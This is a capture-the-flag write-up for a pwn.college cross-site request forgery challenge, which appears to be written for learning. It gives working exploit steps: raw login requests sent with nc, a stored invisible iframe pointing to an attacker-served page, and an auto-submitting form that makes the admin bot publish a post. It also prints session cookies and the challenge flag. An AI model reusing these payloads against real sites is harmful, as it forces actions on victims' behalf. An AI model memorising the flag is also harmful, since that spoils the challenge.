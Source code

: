 # 💉 CSRF 1 — Writeup

## 📁 Challenge Info

- **Category**: Web Exploitation
- **Challenge**: CSRF 1
- **Platform**: pwn.college
- **Tags**: `CSRF`, `Privilege Escalation`, `HTML Injection`, `Stored XSS (iframe)`

---

## 🔍 Description

This challenge introduces **Cross-Site Request Forgery (CSRF)**, where an attacker forces a victim to unknowingly make an authenticated request. Our goal is to trick the admin bot into **visiting an attacker-controlled page** that automatically publishes the admin’s draft post.

---

## 🧠 Understanding the Setup

### App Features

- **Login** via `/login` with session cookie.
- **Draft post** via `/draft`, accepts HTML content.
- **Publish** via `/publish`, using **GET** requests (CSRF-prone!).
- Admin bot **visits** the main page and follows embedded links or frames.

---

## 🧪 Attack Strategy

1. Login as `hacker`
2. Create a post that embeds an **invisible iframe** pointing to our attacker-controlled server
3. Serve a malicious HTML page from `http://hacker.localhost:1337/`
4. When the bot visits the post, the iframe loads and silently triggers a GET request to `/publish`
5. This **publishes** the admin’s draft, revealing the flag

---

## ⚙️ Exploit Steps

### 1. Log in as hacker

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```

✅ Grab the session cookie from response:

```
session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH4PNQ.asUqMabS4FY7c-cb5B0-MCaI0cg
```

---

### 2. Craft malicious post with iframe

Payload:
```html
<iframe src="http://hacker.localhost:1337/" width="0" height="0"></iframe>
```

URL-encoded as:
```
content=%3Ciframe%20src%3D%22http%3A//hacker.localhost%3A1337/%22%20width%3D%220%22%20height%3D%220%22%3E%3C/iframe%3E&publish=on
```

Submit via `POST /draft`:

```bash
PAYLOAD="content=%3Ciframe%20src%3D%22http%3A//hacker.localhost%3A1337/%22%20width%3D%220%22%20height%3D%220%22%3E%3C/iframe%3E&publish=on"
LENGTH=$(echo -n "$PAYLOAD" | wc -c)
echo -e "POST /draft HTTP/1.0\r
Host: challenge.localhost\r
Cookie: session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH4PNQ.asUqMabS4FY7c-cb5B0-MCaI0cg\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: $LENGTH\r
\r
$PAYLOAD" | nc challenge.localhost 80
```

---

### 3. Start malicious server (attacker-controlled)

Serve `index.html` from port `1337`:

```bash
python -m http.server 1337
```

Contents of `index.html`:

```html
<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://challenge.localhost/publish" method="GET">
      <!-- Hidden form auto-submits on load -->
    </form>
  </body>
</html>
```

🧠 This **auto-submits** a GET request to `/publish` as soon as the admin loads it inside the iframe.

---

### 4. Trigger admin visit

```bash
/challenge/victim
```

✅ Admin visits the page, loads the iframe, and the CSRF triggers `/publish`.

---

### 5. Re-login and verify success

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```

Get new session and then:

```bash
curl -b "session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH4Pvg.z85iGtC4AhGvJkGX8LOz1wPo-5Y" http://challenge.localhost/
```

✅ Page shows:

```html
<h2>Author: admin</h2>pwn.college{kVpaE06oj3LD0PEN5AVXrNX9jhd.QX3kzMzwSM0IzMyEzW}
```

---

## 🏁 Flag

```
pwn.college{kVpaE06oj3LD0PEN5AVXrNX9jhd.QX3kzMzwSM0IzMyEzW}
```

---


## ✅ Summary

This challenge demonstrates classic **GET-based CSRF**, where:

- Attacker-controlled content embeds an iframe
- Victim browser loads it
- A state-changing GET request fires in the background

🔓 Because the victim is logged in and no CSRF token is required — the action succeeds.

---

